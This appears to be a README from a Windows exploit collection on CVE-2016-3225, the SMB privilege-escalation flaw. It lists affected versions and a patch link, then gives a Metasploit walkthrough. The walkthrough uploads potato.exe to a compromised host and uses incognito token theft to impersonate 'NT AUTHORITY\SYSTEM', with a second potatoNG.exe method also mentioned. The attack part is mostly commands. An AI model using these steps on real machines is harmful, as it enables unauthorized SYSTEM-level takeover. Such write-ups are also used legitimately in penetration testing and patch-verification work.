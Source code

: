 ### CVE-2016-3225

#### Describe

The SMB server component in Microsoft Windows Vista SP2, Windows Server 2008 SP2 and R2 SP1, Windows 7 SP1, Windows 8.1, Windows Server 2012 Gold and R2, Windows RT 8.1, and Windows 10 Gold and 1511 allows local users to gain privileges via a crafted application that forwards an authentication request to an unintended service, aka "Windows SMB Server Elevation of Privilege Vulnerability."


#### ImpactVersion

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 10          | x86/x64          |         |        |                    |
| Windows 10          | x86/x64          | 1511    |        |                    |
| Windows 7           | x86/x64          |         | SP1    | &#10004; |
| Windows 8.1         | x86/x64          |         |        |                    |
| Windows Rt 8.1      |                  |         |        |                    |
| Windows Server 2008 | x86/x64          |         | SP2    |                    |
| Windows Server 2008 | x86/x64          | R2      | SP1    |                    |
| Windows Server 2012 |                  |         |        |                    |
| Windows Server 2012 |                  | R2      |        |                    |
| Windows Vista       |                  |         | SP2    |                    |

#### Patch

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2016-3225
```

#### Utilization

> Note: You need to run the MSF to generate files with administrator privileges to raise to SYSTEM permissions.

Windows 7 SP1 x64测试中，use `whoami /priv` Command View Discovery None **SeiMpersonateprivilege** Privilege Potato Right requires this privilege to turn on, so use administrator privileges when testing

![image-20200819140202765](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2016-3225_win7_x64.png)

Use MSF + rotten potatoes，First we assume that the machine has been launched, through the plugins from the MSF to identify the EXP you can take advantage of the current system to carry out rights

```
use multi/recon/local_exploit_suggester
set session 1 #Current machine session
run
```

If you do not run the MSF generated EXE, the script test is like this.

![image-20200819112155945](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2016-3225_win7_x64_msf_1.png)

If you use the administrator privilege to run, you can see more than the above MS16_075.

![image-20200819140819782](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2016-3225_win7_x64_msf_2.png)

Compiling the files of bad potatoes

```
potato.exe
```

Then upload compilation files

```
upload /Users/ascotbe/Downloads/Potato.exe C:/Users/ascotbe #上传potato.exe到目标机器中的C:\Users\ascotbe目录下,msf无法识别\符号所以必须使用/符号
```

Then execute the following commands will be successful.

```
use incognito #加载incoginto功能（用来盗窃目标主机的令牌或是假冒用户)
list_tokens -u #列出目标主机用户的可用令牌
execute -cH -f C:/Users/ascotbe/potato.exe #创建新的进程
list_tokens -u #列出目标主机用户的可用令牌
impersonate_token "NT AUTHORITY\SYSTEM"#假冒目标主机上的可用令牌
```

![image-20200819141240274](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2016-3225_win7_x64_msf_3.png)

Enter the Shell View

![image-20200819141337651](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2016-3225_win7_x64_msf_4.png)

> Second utilization

CompilerEnvironment

- VS2019（V141）X64 Release

Since there is no **Seimpersonateprivilege** privilege, this is demonstrated by the administrator account, using the program **potatoNG.exe** directly GIF map

![4](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2016-3225_win7_x64.gif)

